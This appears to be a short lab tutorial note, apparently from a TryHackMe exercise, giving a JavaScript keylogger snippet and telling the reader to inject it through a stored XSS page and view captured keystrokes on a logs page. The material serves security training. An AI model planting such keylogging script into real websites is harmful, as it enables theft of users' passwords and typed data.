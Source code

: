 # Key-Logger with XSS

- **Javascript** can be used for many things, including creating an event to listen for keypresses.
- Sample Key-Logger

  ```
  <script type="text/javascript">
    let l = ""; 
    document.onkeypress = function (e) 
    { 
      l += e.key; 
      console.log(l); 
    }
  </script>
  ```
- [View above script with explanation]()

- Now you have this script, can you adapt it and post it into the ***[stored xss](http://IP_ADDRESS_OF_TRYHACKME_LAB/stored)*** page. Then start typing on that page and see it appear on the ***[logs](http://IP_ADDRESS_OF_TRYHACKME_LAB/logs)*** page.

